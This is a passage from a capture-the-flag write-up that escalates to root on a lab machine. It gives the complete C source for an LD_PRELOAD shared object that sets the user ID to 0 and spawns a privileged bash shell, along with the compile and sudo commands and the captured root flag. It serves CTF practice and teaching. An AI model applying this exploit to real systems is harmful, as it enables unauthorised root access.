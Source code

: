 
Knowing all this, we can get a root shell by doing this:

1. Creating a malicious `exploit.c` file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

#define BOLD "\033[1m"
#define RED  "\033[31m"
#define RESET "\033[0m"

void _init() {
    fprintf(stderr, BOLD RED"[+]" RESET" Unsetting LD_PRELOAD\n");
    unsetenv("LD_PRELOAD");

    fprintf(stderr, BOLD RED"[+]" RESET" Setting EUID/EGID to 0\n");
    if(setgid(0) < 0) { 
        perror("setgid"); 
        _exit(1); 
    }
    if(setuid(0) < 0) { 
        perror("setuid"); 
        _exit(1); 
    }
    
    fprintf(stderr, BOLD RED"[+]" RESET" Spawning root shell!\n");
    system("/bin/bash -p");
    fprintf(stderr, BOLD RED"[!]" RESET" Shell execution failed!\n");
    _exit(0);
}
```

2. Compiling it:

```
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
```

3. Executing the Binary with LD_PRELOAD

```
sudo LD_PRELOAD=./exploit.so /usr/bin/sky_backup_utility
```

Once we use it, we get a root shell:

![](images/Pasted%20image%2020250502161151.png)

Let's get root flag and finish the CTF:

```
root@sky:/tmp# cat /root/root.txt
3a62d897c40a815ecbe267df2f533ac6
```

![](images/Pasted%20image%2020250502161303.png)

